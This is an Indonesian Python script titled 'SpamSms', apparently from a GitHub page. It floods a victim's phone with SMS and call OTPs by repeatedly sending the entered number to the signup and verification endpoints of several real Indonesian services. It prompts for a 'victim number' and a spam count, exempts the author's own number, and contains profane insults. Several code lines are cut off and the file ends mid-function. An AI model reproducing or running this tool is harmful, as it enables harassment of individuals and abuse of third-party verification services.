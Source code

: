 # SpamSms
#Pake Aja Gan:v
#njir mau di recode sksk
#Buat Paan Recod? Belajar Bahasa Pemerograman Sana Hadeeehh Kek Kntl Lu
import requests as reek,json,os,time,requests
try:
        import pyfiglet
except:
        os.system("pip install pyfiglet")
req=reek.Session()
os.system('clear')
title=pyfiglet.figlet_format("Spam Sms")
p = "\33[37;1m"
h = "\33[32;1m"
m = "\33[31;1m"
ber=0
gag=0
class nyepam:
        def __init__(self,_8,_08,_62):
                self._8,self._08,self._62=_8,_08,_62
        def mulai(self,asu):
                try:
                        for x in range(asu):
                                send=req.post("https://cmsapi.mapclub.com/api/signup-otp",data={"phone":self._08},headers={"Connection": "ke>
                                if "ok" in send:break
                                else:break
                        for x in range(asu):
                                send=req.post("https://api.adakami.id/adaKredit/pesan/kodeVerifikasi",data=json.dumps({"ketik":0,"nomor":"0">
                                if "Permintaan kode verifikasi sudah melebihi batas. Silakan coba lagi besok." in send:break
                                else:break
                        for x in range(asu):
                                send=json.loads(reek.get(f"https://id.jagreward.com/member/verify-mobile/{self._8}").text)
                                if send["message"]=="Anda akan menerima sebuah panggilan dari sistem kami. Silakan isi 6 ANGKA TERAKHIR dari>
                  bingung()
                except reek.exceptions.ReadTimeout:exit(f"{m}[!] Kesalahan Pada Koneksi")
                except reek.exceptions.ConnectionError:exit(f"{m}[!] Kesalahan Pada Koneksi")
                except (KeyboardInterrupt,EOFError):exit("[!] Exit")
__import__("os").system("clear")
def bingung():
        print(f"{h}\n[√] Semua Spam Terkirim Berhasil{p}\n")
        print(f"Ingin Spam Lagi?\nKetik y untuk ya ketik t untuk tidak\n")
        pilih=input("y/t : ")
        if(pilih=="y"):
                cok()
        elif(pilih=="t"):
                exite("Terima Kasih!")
        else:
                print("Masukan Yang Benar!")
                bingung()
def cok():
        while True:
                try:
                        a=input("[+] Nomer Korban 08×××\t: ")
                        asu=a[0:2]
                        if a in(""," "):print("[!] Jangan Kosong Ajg")
                        elif "08" not in asu:print("[!] Gunakan Nomer 08xxx\n")
                        elif len(a)<=10:print("[!] Nomer Harus Lebih Dari 10 Angka")
                        elif a=="083870396203":print("[!] Anda Tidak Bisa Spam Yang Punya Script Goblok!\n")
                        else:
                                try:
                                        suu=int(input("[+] Masukan Jumlah Spam\t: "))
                                except:
                                        print("Masukan Format Angka Jangan Huruf!")
                                        cok()
         
